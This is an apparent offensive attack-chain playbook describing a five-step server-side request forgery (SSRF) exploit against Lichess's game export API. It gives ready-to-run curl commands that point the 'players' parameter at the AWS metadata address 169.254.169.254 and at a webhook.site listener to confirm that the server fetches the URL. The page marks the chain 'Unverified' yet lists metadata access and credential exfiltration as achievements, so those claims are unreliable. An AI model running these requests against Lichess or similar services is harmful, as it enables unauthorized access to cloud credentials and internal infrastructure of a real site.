

# SSRF Exploitation in Lichess Game Export API to Access Internal Metadata

Multi-stage attack chain demonstrating a complete SSRF workflow against Lichess, from source code review to exploitation confirmation, allowing unauthorized access to internal cloud metadata.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/webhook-site]]

### Target Environment

- Lichess.org (public web application)
- Required services/ports: HTTP/HTTPS on port 443
- Network access requirements: Public internet access to lichess.org

### Initial Access Requirements

- No credentials required (public endpoints)
- Network position: External attacker
- Prior access needed: None

## Detailed Attack Procedures

### Step 1: Source Code Review
procedure: [[procedures/Review-Lichess-Source-Code-for-SSRF]]

**Objective**: Analyze Lichess open-source code to identify the SSRF vulnerability in the game export API.

**Instructions**: Clone the Lichess repository from GitHub and review key files in the Scala codebase. Focus on the 'players' parameter handling in Game.scala and related APIs.

**Expected Output**: Identification of unvalidated URL usage in RealPlayer.scala.

**Success Indicators**:
- Vulnerability confirmed in code: ws.url(url).get() without validation
- Paths to vulnerable functions noted

### Step 2: Identify Vulnerable Endpoints
procedure: [[procedures/Identify-Vulnerable-Lichess-API-Endpoints]]

**Objective**: Locate public API endpoints that accept the 'players' parameter without authentication.

**Instructions**: Review API documentation and test endpoints like /game/export/[GAME_ID]. Confirm acceptance of 'players' query parameter.

**Expected Output**: List of exploitable endpoints such as /game/export/[GAME_ID], /api/games/export/_ids, /api/games/user/[USERNAME].

**Success Indicators**:
- Endpoints respond to queries with 'players' parameter
- No authentication barriers

### Step 3: Craft Proof-of-Concept Request
procedure: [[procedures/Craft-and-Execute-Lichess-SSRF-POC-Request]]

**Objective**: Build a malicious request using a valid game ID and internal URL to trigger SSRF.

**Instructions**: Select a public game ID from lichess.org, then craft the URL with 'players' set to an internal endpoint like AWS metadata. Use [[commands/curl-lichess-ssrf-poc]] to prepare the request:

```bash
curl "https://lichess.org/game/export/[GAME_ID]?players=http://169.254.169.254/latest/meta-data/" -v
```

Replace [GAME_ID] with a real ID, e.g., from browsing lichess.org.

**Expected Output**: Server response indicating processing, but monitor for backend fetch.

**Success Indicators**:
- Request accepted without error
- Server-side fetch initiated (verified in next step)

### Step 4: Execute the Request
procedure: [[procedures/Craft-and-Execute-Lichess-SSRF-POC-Request]]

**Objective**: Send the crafted request to force the Lichess server to make an unauthorized internal request.

**Instructions**: Execute the prepared curl command from Step 3 to hit the vulnerable endpoint.

```bash
curl "https://lichess.org/game/export/[GAME_ID]?players=http://169.254.169.254/latest/meta-data/" -v
```

**Expected Output**: HTTP 200 or game export response, with server logging the internal request.

**Success Indicators**:
- No client-side rejection
- Backend request to internal URL

### Step 5: Confirm Exploitation
procedure: [[procedures/Confirm-Lichess-SSRF-Exploitation]]

**Objective**: Verify that the Lichess server fetched the specified internal URL.

**Instructions**: Set up a listener on [[tools/webhook-site]] and replace the 'players' URL with your webhook URL. Re-execute the request and check for incoming hits.

```bash
curl "https://lichess.org/game/export/[GAME_ID]?players=https://webhook.site/your-unique-id" -v
```

Monitor webhook.site for the server's GET request.

**Expected Output**: Incoming HTTP request on webhook.site from Lichess IP.

**Success Indicators**:
- Webhook receives request from lichess.org servers
- Payload matches internal URL attempt

## Attack Chain Summary

### Key Achievements

1. Identified SSRF via code review without prior access.
2. Exploited public endpoints to access AWS metadata.
3. Confirmed server-side requests to arbitrary URLs, enabling credential exfiltration.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
